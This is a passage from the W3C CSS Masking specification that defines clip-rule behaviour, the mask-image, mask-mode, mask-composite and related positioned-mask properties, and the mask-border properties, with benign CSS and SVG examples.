> **Note:** The `clip-rule` property does not apply to `<basic-shape>`s.

> **Example:** The following drawing illustrates the `nonzero` rule:
>
> 
>
> Three shapes from left to right: Star with 5 points drawn in one continuous, overlapping line; 2 clockwise drawn circles, one contains the other and both are subpaths of the same shape; 2 circles, one containing the other with the bigger one drawn in a clockwise direction and the smaller one in a counter-clockwise direction and both belonging to the same shape. Only the last shape has a "hole".
>
> The following drawing illustrates the `evenodd` rule:
>
> 
>
> Three shapes from left to right: Star with 5 points drawn in one continuous, overlapping line; 2 clockwise drawn circles, one contains the other and both are subpaths of the same shape; 2 circles, one containing the other with the bigger one drawn in a clockwise direction and the smaller one in a counter-clockwise direction and both belonging to the same shape. All 3 shapes have a "hole".

> **Example:** The following fragment of code will cause an even-odd clipping rule to be applied to the clipping path because `clip-rule` is specified on the path element that defines the clipping shape:
>
> ```
> <g clip-rule="nonzero">
>   <clipPath id="MyClip">
>     <path d="..." clip-rule="evenodd" />
>   </clipPath>
>   <rect clip-path="url(#MyClip)" ... />
> </g>
> ```
>
> whereas the following fragment of code will *not* cause an evenodd clipping rule to be applied because the `clip-rule` is specified on the referencing element, not on the object defining the clipping shape:
>
> ```
> <g clip-rule="nonzero">
>   <clipPath id="MyClip">
>     <path d="..." />
>   </clipPath>
>   <rect clip-path="url(#MyClip)" clip-rule="evenodd" ... />
> </g>
> ```

The `clip-rule` property is a [presentation attribute](https://www.w3.org/TR/2011/REC-SVG11-20110816/intro.html#TermPresentationAttribute) for SVG elements.

### 7. Positioned Masks {#css-masking-1:positioned-masks}

#### 7.1. Mask Image Source: the `mask-image` property {#css-masking-1:the-mask-image}

| Field | Value |
| --- | --- |
| Name: | **mask-image** |
| [Value:](#css-values-4:value-defs) | `<mask-reference>`# |
| [Initial:](#css-cascade-6:initial-values) | none |
| [Applies to:](#css-cascade-5:applies-to) | All elements. In SVG, it applies to container elements excluding the defs element, all graphics elements and the use element |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | list, each item the keyword `none`, a computed `<image>`, or a computed `<url>` |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |
| Media: | visual |

This property sets the **mask layer image** of an element. Where:

```css
<mask-reference> = none | <image> | <mask-source>
```

```css
<mask-source> = <url>
```

****<url>****

: A URL reference to a mask element (for example `url(commonmasks.svg#mask)`) or to a CSS image.

**none**

: A value of `none` counts as a transparent black image layer.

A computed value of other than `none` results in the creation of a stacking context [CSS21] the same way that CSS `opacity` [CSS3COLOR] does for values other than `1`.

A mask reference that is an empty image (zero width or zero height), that fails to download, is not a reference to an mask element, is non-existent, or that cannot be displayed (e.g. because it is not in a supported image format) still counts as an image layer of transparent black.

See the section [“Mask processing”](#css-masking-1:MaskValues) for how to process a mask layer image.

> **Note:** A value of `none` in a list of `<mask-reference>`s may influence the masking operation depending on the used compositing operator specified by `mask-composite`.

> **Note:** A `<mask-source>` counts as mask layer and can be combined in a repeatable `<mask-reference>` list with `<image>` or further <mask-source> list items.

> **Note:** An element can also be masked with `mask-border-source`. See `mask-border-source` for the interaction of that property with `mask-image`.

> **Example:** s for mask references:
>
> ```
> body { mask-image: linear-gradient(black 0%, transparent 100%) }
> p { mask-image: none }
> div { mask-image: url(resources.svg#mask2) }
> ```

See the section [“Layering multiple mask layer images”](#css-masking-1:layering) for how `mask-image` interacts with other comma-separated mask properties to form each mask layer.

#### 7.2. Mask Image Interpretation: the `mask-mode` property {#css-masking-1:the-mask-mode}

| Field | Value |
| --- | --- |
| Name: | **mask-mode** |
| [Value:](#css-values-4:value-defs) | `<masking-mode>`# |
| [Initial:](#css-cascade-6:initial-values) | match-source |
| [Applies to:](#css-cascade-5:applies-to) | All elements. In SVG, it applies to container elements excluding the defs element, all graphics elements and the use element |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | list, each item the keyword as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |
| Media: | visual |

The `mask-mode` property indicates whether the `<mask-reference>` is treated as luminance mask or alpha mask. (See [Mask processing](#css-masking-1:MaskValues).)

```css
<masking-mode> = alpha | luminance | match-source
```

Values have the following meanings:

****alpha****

: A value of `alpha` indicates that the alpha values of the mask layer image should be used as the mask values. See [Calculating mask values](#css-masking-1:MaskValues).

****luminance****

: A value of `luminance` indicates that the luminance values of the mask layer image should be used as the mask values. See [Calculating mask values](#css-masking-1:MaskValues).

****match-source****

: If the `<mask-reference>` of the `mask-image` property is of type `<mask-source>` the value specified by the referenced mask element’s `mask-type` property must be used.

  If the `<mask-reference>` of the `mask-image` property is of type `<image>` the alpha values of the mask layer image should be used as the mask values.

> **Example:** In the following example, the `mask-type` property sets the mask type value for the mask element to `alpha`. The `mask-image` property has a reference to this mask element and the `mask-mode` property has a value of `luminance`. The `mask-mode` property will override the definition of `mask-type` to `luminance`.
>
> The `mask-mode` property must not affect the masking mode of `mask-border-source`.
>
> ```
> <mask id="SVGMask" mask-type="alpha" maskContentUnits="objectBoundingBox">
>   <radialGradient id="radialFill">
>     <stop stop-color="white" offset="0"/>
>     <stop stop-color="black" offset="1"/>
>   </radialGradient>
>   <circle fill="url(#radialFill)" cx="0.5" cy="0.5" r="0.5"/>
> </mask>
>
> <style>
>   rect {
>     mask-image: url(#SVGMask);
>     mask-mode: luminance;
>   }
> </style>
>
> <rect width="200" height="200" fill="green"/>
> ```

See the section [“Layering multiple mask layer images”](#css-masking-1:layering) for how `mask-mode` interacts with other comma-separated mask properties to form each mask layer.

#### 7.3. Tiling Mask Images: the `mask-repeat` property {#css-masking-1:the-mask-repeat}

| Field | Value |
| --- | --- |
| Name: | **mask-repeat** |
| [Value:](#css-values-4:value-defs) | `<repeat-style>`# |
| [Initial:](#css-cascade-6:initial-values) | repeat |
| [Applies to:](#css-cascade-5:applies-to) | All elements. In SVG, it applies to container elements excluding the defs element, all graphics elements and the use element |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | list, each item a pair of keywords, one per dimension |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |
| Media: | visual |

Specifies how mask layer images are tiled after they have been [sized](#css-masking-1:the-mask-size) and [positioned](#css-masking-1:the-mask-position).

See `background-repeat` property [CSS3BG] for the definitions of the property values.

> **Example:** ```
> body {
>     background-color: blue;
>     mask-image: url(dot-mask.png) luminance;
>     mask-repeat: space;
> }
> ```
>
> 
>
> The effect of `space`: the mask layer image of a dot is tiled to cover the whole mask painting area and the mask layer images are equally spaced.

See the section [“Layering multiple mask layer images”](#css-masking-1:layering) for how `mask-repeat` interacts with other comma-separated mask properties to form each mask layer.

#### 7.4. Positioning Mask Images: the `mask-position` property {#css-masking-1:the-mask-position}

| Field | Value |
| --- | --- |
| Name: | **mask-position** |
| [Value:](#css-values-4:value-defs) | `<position>`# |
| [Initial:](#css-cascade-6:initial-values) | 0% 0% |
| [Applies to:](#css-cascade-5:applies-to) | All elements. In SVG, it applies to container elements excluding the defs element, all graphics elements and the use element |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | refer to size of mask painting area *minus* size of mask layer image; see text `background-position` [CSS3BG] |
| [Computed value:](#css-cascade-6:computed) | list, each item consists of two keywords representing the origin and two offsets from that origin, each given as an absolute length (if given a `<length>`), otherwise as a percentage. |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | repeatable list |
| Media: | visual |

See the `background-position` property [CSS3BG] for the definitions of the property values.

> **Example:** In the example below, the (single) image is placed in the lower-right corner of the viewport.
>
> ```
> body {
>     mask-image: url("logo.png");
>     mask-position: 100% 100%;
>     mask-repeat: no-repeat;
> }
> ```

> **Example:** Mask positions can also be relative to other corners than the top left. E.g., the following puts the background image 10px from the bottom and 3em from the right:
>
> ```
> mask-position: right 3em bottom 10px
> ```

See the section [“Layering multiple mask layer images”](#css-masking-1:layering) for how `mask-position` interacts with other comma-separated mask properties to form each mask layer.

#### 7.5. Masking Area: the `mask-clip` property {#css-masking-1:the-mask-clip}

| Field | Value |
| --- | --- |
| Name: | **mask-clip** |
| [Value:](#css-values-4:value-defs) | [ `<coord-box>` \| no-clip ]# |
| [Initial:](#css-cascade-6:initial-values) | border-box |
| [Applies to:](#css-cascade-5:applies-to) | All elements. In SVG, it applies to container elements excluding the defs element, all graphics elements and the use element |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | list, each item the keyword as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |
| Media: | visual |

For mask layer images that do not reference a mask element, `mask-clip` determines the **mask painting area**, which determines the area that is affected by the mask. The painted content of an element must be restricted to this area.

The `mask-clip` property has no affect on a mask layer image that references a mask element. The x, y, width, height and maskUnits attributes on the mask element determine the mask painting area for mask references.

Values have the following meanings:

****content-box****

: The painted content is restricted to (clipped to) the *content box*.

****padding-box****

: The painted content is restricted to (clipped to) the *padding box*.

****border-box****

: The painted content is restricted to (clipped to) the *border box*.

****fill-box****

: The painted content is restricted to (clipped to) the object bounding box.

****stroke-box****

: The painted content is restricted to (clipped to) the stroke bounding box.

****view-box****

: Uses the nearest [SVG viewport](https://www.w3.org/TR/SVG11/intro.html#TermSVGViewport) as reference box.

  If a viewBox attribute is specified for the [SVG viewport](https://www.w3.org/TR/SVG11/intro.html#TermSVGViewport) creating element:

  - The reference box is positioned at the origin of the coordinate system established by the viewBox attribute.
  - The dimension of the reference box is set to the *width* and *height* values of the viewBox attribute.

****no-clip****

: The painted content is not restricted (not clipped).

For SVG elements without associated CSS layout box, the used values for `content-box` and `padding-box` compute to `fill-box` and for `border-box` compute to `stroke-box`.

For elements with associated CSS layout box, the used values for `fill-box` compute to `content-box` and for `stroke-box` and `view-box` compute to `border-box`.

See the section [“Layering multiple mask layer images”](#css-masking-1:layering) for how `mask-clip` interacts with other comma-separated mask properties to form each mask layer.

#### 7.6. Positioning Area: the `mask-origin` property {#css-masking-1:the-mask-origin}

| Field | Value |
| --- | --- |
| Name: | **mask-origin** |
| [Value:](#css-values-4:value-defs) | `<coord-box>`# |
| [Initial:](#css-cascade-6:initial-values) | border-box |
| [Applies to:](#css-cascade-5:applies-to) | All elements. In SVG, it applies to container elements excluding the defs element, all graphics elements and the use element |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | list, each item the keyword as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |
| Media: | visual |

Specifies the **mask positioning area**.

For fragmented boxes (e.g. inline boxes spanning several lines or boxes spanning several pages or columns), `box-decoration-break` controls whether the mask positioning area is determined for each fragment individually or is sliced together with the box’s decorations.

****content-box****

: The position is relative to the *content box*.

****padding-box****

: The position is relative to the *padding box*. (For single boxes `0 0` is the upper left corner of the padding edge, `100% 100%` is the lower right corner.)

****border-box****

: The position is relative to the *border box*.

****fill-box****

: The position is relative to the object bounding box.

****stroke-box****

: The position is relative to the stroke bounding box.

****view-box****

: Uses the nearest [SVG viewport](https://www.w3.org/TR/SVG11/intro.html#TermSVGViewport) as reference box.

  If a viewBox attribute is specified for the [SVG viewport](https://www.w3.org/TR/SVG11/intro.html#TermSVGViewport) creating element:

  - The reference box is positioned at the origin of the coordinate system established by the viewBox attribute.
  - The dimension of the reference box is set to the *width* and *height* values of the viewBox attribute.

For SVG elements without associated CSS layout box, the values `content-box`, `padding-box` and `border-box` compute to `fill-box`.

For elements with associated CSS layout box, the values `fill-box`, `stroke-box` and `view-box` compute to the initial value of `mask-origin`.

> **Note:** The `mask-origin` property is similar to the `background-origin` property [CSS3BG], but it has a different set of values, and a different initial value.

> **Note:** If `mask-clip` is `padding-box`, `mask-origin` is `border-box`, `mask-position` is `top left` (the initial value), and the element has a non-zero border, then the top and left of the mask layer image will be clipped.

See the section [“Layering multiple mask layer images”](#css-masking-1:layering) for how `mask-origin` interacts with other comma-separated mask properties to form each mask layer.

#### 7.7. Sizing Mask Images: the `mask-size` property {#css-masking-1:the-mask-size}

| Field | Value |
| --- | --- |
| Name: | **mask-size** |
| [Value:](#css-values-4:value-defs) | `<bg-size>`# |
| [Initial:](#css-cascade-6:initial-values) | auto |
| [Applies to:](#css-cascade-5:applies-to) | All elements. In SVG, it applies to container elements excluding the defs element, all graphics elements and the use element |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | list, each item as specified, but with lengths made absolute |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | repeatable list |
| Media: | visual |

Specifies the size of the mask layer images.

See `background-size` property [CSS3BG] for the definitions of the property values.

See the section [“Layering multiple mask layer images”](#css-masking-1:layering) for how `mask-size` interacts with other comma-separated mask properties to form each mask layer.

#### 7.8. Compositing mask layers: the `mask-composite` property {#css-masking-1:the-mask-composite}

| Field | Value |
| --- | --- |
| Name: | **mask-composite** |
| [Value:](#css-values-4:value-defs) | `<compositing-operator>`# |
| [Initial:](#css-cascade-6:initial-values) | add |
| [Applies to:](#css-cascade-5:applies-to) | All elements. In SVG, it applies to container elements without the defs element and all graphics elements |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | list, each item the keyword as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |
| Media: | visual |

```css
<compositing-operator> = add | subtract | intersect | exclude
```

Each keyword represents a Porter-Duff compositing operator [COMPOSITING-1] which defines the compositing operation used on the current mask layer with the mask layers below it.

In the following, the current mask layer is referred to **source**, all mask layers below it (with the corresponding compositing operators applied) are referred to **destination**.

****add****

: The source is placed over the destination. (See Porter-Duff compositing operator [source over](#compositing-2:porterduffcompositingoperators_srcover) for more details.)

****subtract****

: The source is placed, where it falls outside of the destination. (See Porter-Duff compositing operator [source out](#compositing-2:porterduffcompositingoperators_srcout) for more details.)

****intersect****

: The parts of source that overlap the destination, replace the destination. (See Porter-Duff compositing operator [source in](#compositing-2:porterduffcompositingoperators_srcin) .)

****exclude****

: The non-overlapping regions of source and destination are combined. (See Porter-Duff compositing operator [XOR](#compositing-2:porterduffcompositingoperators_xor).)

If there is no further mask layer, the compositing operator must be ignored. Mask layers must not composite with the element’s content or the content behind the element, instead they must act as if they are rendered into an isolated group.

All mask layers below the current mask layer must be composited before applying the compositing operation for the current mask layer.

> **Example:** This example uses two mask layer images: *circle.svg* and *rect.svg*.
>
> 
>
> Both mask layer images are references with the `mask-image` property:
>
> ```
> mask-image: circle.svg, rect.svg;
> ```
>
> The mask layer with *rect.svg* is below the mask layer with *circle.svg*. That means *circle.svg* is closer to the user than *rect.svg*.
>
> With the property `mask-composite` the author may choose different ways to combine multiple mask layers.
>
> - `add` paints the *circle.svg* on top of *rect.svg*. The behavior is described by the compositing operator [source over](#compositing-2:porterduffcompositingoperators_srcover).
>
>   ```
>   mask-composite: add;
>   ```
>
>   
> - `subtract` paints portions of *circle.svg* that do not overlap *rect.svg*. The behavior is described by the compositing operator [source out](#compositing-2:porterduffcompositingoperators_srcout).
>
>   ```
>   mask-composite: subtract;
>   ```
>
>   
> - `intersect` paints portions of *circle.svg* that overlap *rect.svg*. The behavior is described by the compositing operator [source in](#compositing-2:porterduffcompositingoperators_srcin).
>
>   ```
>   mask-composite: intersect;
>   ```
>
>   
> - `exclude` paints portions of *circle.svg* and *rect.svg* that do not overlap. The behavior is described by the compositing operator [XOR](#compositing-2:porterduffcompositingoperators_xor).
>
>   ```
>   mask-composite: exclude;
>   ```
>
>   

> **Example:** The following example specifies two mask layers and two compositing operators.
>
> ```
> mask-image: rect.svg, circle.svg;
> mask-composite: add, exclude;
> ```
>
> *rect.svg* and *circle.svg* make use of the `add` compositing operator. There is no further mask layer to use `exclude` and therefore, `exclude` is ignored.

> **Example:** This is an example of 3 mask layers with different compositing operators.
>
> ```
> mask-image: trapeze.svg, circle.svg, rect.svg;
> mask-composite: subtract, add;
> ```
>
> First, *circle.svg* is “added” to *rect.svg*. In a second step, only portions of *trapeze.svg* that are not overlapping the compositing result of the previous two layers is visible.
>
> 

See the section [“Layering multiple mask layer images”](#css-masking-1:layering) for how `mask-composite` interacts with other comma-separated mask properties to form each mask layer.

#### 7.9. Mask Shorthand: the `mask` property {#css-masking-1:the-mask}

| Field | Value |
| --- | --- |
| Name: | **mask** |
| [Value:](#css-values-4:value-defs) | `<mask-layer>`# |
| [Initial:](#css-cascade-6:initial-values) | see individual properties |
| [Applies to:](#css-cascade-5:applies-to) | All elements. In SVG, it applies to container elements excluding the defs element, all graphics elements and the use element |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | see individual properties |
| [Computed value:](#css-cascade-6:computed) | see individual properties |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | see individual properties |
| Media: | visual |

```css
<mask-layer> =
  <mask-reference> ||
  <position> [ / <bg-size> ]? ||
  <repeat-style> ||
  <geometry-box> ||
  [ <geometry-box> | no-clip ] ||
  <compositing-operator> ||
  <masking-mode>
```

If one `<geometry-box>` value and the `no-clip` keyword are present then <geometry-box> sets `mask-origin` and `no-clip` sets `mask-clip` to that value.

If one `<geometry-box>` value and no `no-clip` keyword are present then <geometry-box> sets both `mask-origin` and `mask-clip` to that value.

If two `<geometry-box>` values are present, then the first sets `mask-origin` and the second `mask-clip`.

The used value of the properties `mask-repeat`, `mask-position`, `mask-clip`, `mask-origin` and `mask-size` must have no effect if `<mask-reference>` references a mask element. In this case the element defines position, sizing and clipping of the mask layer image.

The `mask` shorthand also resets `mask-border` to its initial value. It is therefore recommended that authors use the `mask` shorthand, rather than other shorthands or the individual properties, to override any mask settings earlier in the cascade. This will ensure that `mask-border` has also been reset to allow the new styles to take effect.

#### 7.10. The Mask Image Rendering Model {#css-masking-1:the-mask-image-rendering-model}

The application of the `mask-image` property with a value other than `none` to an element formatted with the CSS box model establishes a stacking context in the same way that CSS `opacity` [CSS3COLOR] does, and all the element’s descendants are rendered together as a group with the masking applied to the group as a whole.

The `mask-image` property has no effect on the geometry or hit-testing of any element’s CSS boxes.

The `mask` property is a [presentation attribute](https://www.w3.org/TR/2011/REC-SVG11-20110816/intro.html#TermPresentationAttribute) for SVG elements.

##### 7.10.1. Mask processing {#css-masking-1:MaskValues}

In the following section, **mask image** refers either to a mask layer image or to a mask border image.

A mask image may be interpreted using one of two different methods with regards to calculating the mask values that will be multiplied with the target alpha values.

The first and simplest method of calculating the mask values is to use the alpha channel of the mask image. In this case the mask value at a given point is simply the value of the alpha channel at that point. The color channels do not contribute to the mask value.

The second method of calculating the mask values is to use the luminance of the mask image. In this case the mask value at a given point is computed from the color channel values and alpha channel value using the following procedure.

1. Compute a luminance value from the color channel values.

  - If the computed value of `color-interpolation` on the mask element is `linearRGB`, convert the original image color values (potentially in the sRGB color space) to the linearRGB color space.
  - Then, using non-premultiplied RGB color values, apply the luminance-to-alpha coefficients (as defined in the feColorMatrix filter primitive [SVG11]) to convert the RGB color values to luminance values.
2. Multiply the computed luminance value by the corresponding alpha value to produce the mask value.

Regardless of the method used, the procedure for calculating mask values assumes the content of the mask is a four-channel RGBA graphics object. For other types of graphics objects, special handling is required as follows.

For a three-channel RGB graphics object that is used in a mask (e.g., when referencing a three-channel image file), the effect is as if the object were converted into a four-channel RGBA image with the alpha channel uniformly set to 1.

For a single-channel image that is used in a mask (e.g., when referencing a single-channel grayscale image file), the effect is as if the object were converted into a four-channel RGBA image, where the single channel from the referenced object is used to compute the three color channels and the alpha channel is uniformly set to 1.

> **Note:** When referencing a grayscale image file, the transfer curve relating the encoded grayscale values to linear light values must be taken into account when computing the color channels.

> **Note:** SVG graphics elements (e.g., circle or text) are all treated as four-channel RGBA images for the purposes of masking operations.

The effect of a mask is identical to what would have happened if there were no mask but instead the alpha channel of the given object were multiplied with the mask’s resulting mask values.

Regions not covered by a mask image are treated as transparent black. The mask value is 0.

> **Note:** Masks with repeating mask image tiles may have an offset to each other. The space between the mask images is treated as a transparent black mask.

##### 7.10.2. Layering Multiple Mask Images {#css-masking-1:layering}

The mask of a box can have multiple layers. The number of layers is determined by the number of comma-separated values for the `mask-image` property. A value of `none` in a list of values with other `<mask-reference>`s still creates a layer.

See [Layering Multiple Background Images](#css-backgrounds-4:layering) [CSS3BG].

`mask-mode` and `mask-composite` do not have counterparts in CSS Backgrounds and Borders [CSS3BG]. Just like for the mask properties that do have a counterpart, the list of values are matched up from the first value: excess values at the end are not used. If a property doesn’t have enough comma-separated values to match the number of layers, the UA must calculate its used value by repeating the list of values until there are enough.

All mask layer images are transformed to alpha masks (if necessary see [Mask processing](#css-masking-1:MaskValues)) and combined by compositing taking the compositing operators specified by `mask-composite` into account.

### 8. Border-Box Mask {#css-masking-1:mask-borders}

With `mask-border` an image can be split into nine pieces: four corners, four edges and the middle piece as demonstrated in the figure below.


Pieces of a mask border image.

These pieces may be sliced, scaled and stretched in various ways to fit the size of the mask border image area. This distorted image is then used as a mask. The syntax of `mask-border` corresponds to the `border-image` property of CSS Background and Borders [CSS3BG].

> **Example:** The mask border image in the following example is split into four corners with dimensions of 75 pixels, four edges and the middle piece that is stretched and scaled.
>
> 
>
> Example for `mask-border`. The object on the left is the object to mask. The second image is the alpha mask and the last image the masked object.
>
> ```
> div {
>     background: linear-gradient(bottom, #F27BAA 0%, #FCC8AD 100%);
>     mask-border-slice: 25 fill;
>     mask-border-repeat: stretch;
>     mask-border-source: url(mask.png);
> }
> ```

#### 8.1. Mask Border Image Source: the `mask-border-source` property {#css-masking-1:the-mask-border-source}

| Field | Value |
| --- | --- |
| Name: | **mask-border-source** |
| [Value:](#css-values-4:value-defs) | `<'border-image-source'>` |
| [Initial:](#css-cascade-6:initial-values) | none |
| [Applies to:](#css-cascade-5:applies-to) | All elements. In SVG, it applies to container elements excluding the defs element, all graphics elements and the use element |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | they keyword `none` or the computed `<image>` |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |
| Media: | visual |

Specifies an image to be used as **mask border image**.

An image that is an empty image (zero width or zero height), that fails to download, is non-existent, or that cannot be displayed (e.g. because it is not in a supported image format) is ignored. It still counts as an mask border image but does not mask the element.

See “[Mask processing](#css-masking-1:MaskValues)” on how to process the mask border image.

A computed value of other than `none` results in the creation of a stacking context [CSS21] the same way that CSS `opacity` [CSS3COLOR] does for values other than `1`.

`mask-border-source` and `mask-image` can be specified independent of each other. If both properties have a value other than `none`, the element is masked by both masking operations one after the other.

> **Note:** It does not matter if `mask-image` is applied to the element before or after `mask-border-source`. Both operation orders result in the same rendering.

#### 8.2. Mask Border Image Interpretation: the `mask-border-mode` property {#css-masking-1:the-mask-border-mode}

| Field | Value |
| --- | --- |
| Name: | **mask-border-mode** |
| [Value:](#css-values-4:value-defs) | luminance \| alpha |
| [Initial:](#css-cascade-6:initial-values) | alpha |
| [Applies to:](#css-cascade-5:applies-to) | All elements. In SVG, it applies to container elements excluding the defs element, all graphics elements and the use element |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |
| Media: | visual |

The `mask-border-mode` property indicates whether the `<image>` value for `mask-border-source` is treated as luminance mask or alpha mask. (See [Mask processing](#css-masking-1:MaskValues).)

Values have the following meanings:

****alpha****

: A value of `alpha` indicates that the alpha values of the mask border image should be used as the mask values. See [Calculating mask values](#css-masking-1:MaskValues).

****luminance****

: A value of `luminance` indicates that the luminance values of the mask border image should be used as the mask values. See [Calculating mask values](#css-masking-1:MaskValues).

The `mask-mode` and `mask-type` properties must have no affect on the mask border image type.

#### 8.3. Mask Border Image Slicing: the `mask-border-slice` property {#css-masking-1:the-mask-border-slice}

| Field | Value |
| --- | --- |
| Name: | **mask-border-slice** |
| [Value:](#css-values-4:value-defs) | `<'border-image-slice'>` |
| [Initial:](#css-cascade-6:initial-values) | 0 |
| [Applies to:](#css-cascade-5:applies-to) | All elements. In SVG, it applies to container elements excluding the defs element, all graphics elements and the use element |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | refer to size of the mask border image |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value |
| Media: | visual |

This property specifies inward offsets from the top, right, bottom, and left edges of the mask border image, dividing it into nine regions: four corners, four edges and a middle. The middle image part is discarded and treated as fully opaque white (the content covered by the middle part is not masked and shines through) unless the **fill** keyword is present.

See the `border-image-slice` property [CSS3BG] for the definitions of the property values.

#### 8.4. Masking Areas: the `mask-border-width` property {#css-masking-1:the-mask-border-width}

| Field | Value |
| --- | --- |
| Name: | **mask-border-width** |
| [Value:](#css-values-4:value-defs) | `<'border-image-width'>` |
| [Initial:](#css-cascade-6:initial-values) | auto |
| [Applies to:](#css-cascade-5:applies-to) | All elements. In SVG, it applies to container elements excluding the defs element, all graphics elements and the use element |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | relative to width/height of the mask border image area |
| [Computed value:](#css-cascade-6:computed) | all `<length>`s made absolute, otherwise as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value |
| Media: | visual |

The mask border image is drawn inside an area called the **mask border image area**. This is an area whose boundaries by default correspond to the border box, see `mask-border-outset`.

See the `border-image-width` property [CSS3BG] for the definitions of the property values.

> **Note:** For SVG elements without an associated layout box the `border-width` is considered to be `0`.

#### 8.5. Edge Overhang: the `mask-border-outset` property {#css-masking-1:the-mask-border-outset}

| Field | Value |
| --- | --- |
| Name: | **mask-border-outset** |
| [Value:](#css-values-4:value-defs) | `<'border-image-outset'>` |
| [Initial:](#css-cascade-6:initial-values) | 0 |
| [Applies to:](#css-cascade-5:applies-to) | All elements. In SVG, it applies to container elements excluding the defs element, all graphics elements and the use element |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | all `<length>`s made absolute, otherwise as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value |
| Media: | visual |

The values specify the amount by which the mask border image area extends beyond the border box. If it has four values, they set the outsets on the top, right, bottom and left sides in that order. If the left is missing, it is the same as the right; if the bottom is missing, it is the same as the top; if the right is missing, it is the same as the top.

As with `mask-border-width`, a `<number>` represents a multiple of the corresponding `border-width`. Negative values are not allowed for any of the `mask-border-outset` values.

> **Note:** For SVG elements without associated layout box the `border-width` is considered to be `0`.

#### 8.6. Mask Border Image Tiling: the `mask-border-repeat` property {#css-masking-1:the-mask-border-repeat}

| Field | Value |
| --- | --- |
| Name: | **mask-border-repeat** |
| [Value:](#css-values-4:value-defs) | `<'border-image-repeat'>` |
| [Initial:](#css-cascade-6:initial-values) | stretch |
| [Applies to:](#css-cascade-5:applies-to) | All elements. In SVG, it applies to container elements excluding the defs element, all graphics elements and the use element |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |
| Media: | visual |

This property specifies how the images for the sides and the middle part of the mask border image are scaled and tiled. The first keyword applies to the horizontal sides, the second to the vertical ones. If the second keyword is absent, it is assumed to be the same as the first.

See the `border-image-repeat` property [CSS3BG] for the definitions of the property values.

The exact process for scaling and tiling the mask border image parts is given in the section [Masking with the mask border image](#css-masking-1:masking-with-the-mask-border-image)

#### 8.7. Mask Border Image Shorthand: the `mask-border` property {#css-masking-1:the-mask-border}

| Field | Value |
| --- | --- |
| Name: | **mask-border** |
| [Value:](#css-values-4:value-defs) | `<'mask-border-source'>` \|\| `<'mask-border-slice'>` [ / `<'mask-border-width'>`? [ / `<'mask-border-outset'>` ]? ]? \|\| `<'mask-border-repeat'>` \|\| `<'mask-border-mode'>` |
| [Initial:](#css-cascade-6:initial-values) | See individual properties |
| [Applies to:](#css-cascade-5:applies-to) | See individual properties |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | See individual properties |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | See individual properties |
| Media: | visual |

This is a shorthand property for setting `mask-border-source`, `mask-border-slice`, `mask-border-width`, `mask-border-outset`, `mask-border-repeat` and `mask-border-mode`. Omitted values are set to their initial values.

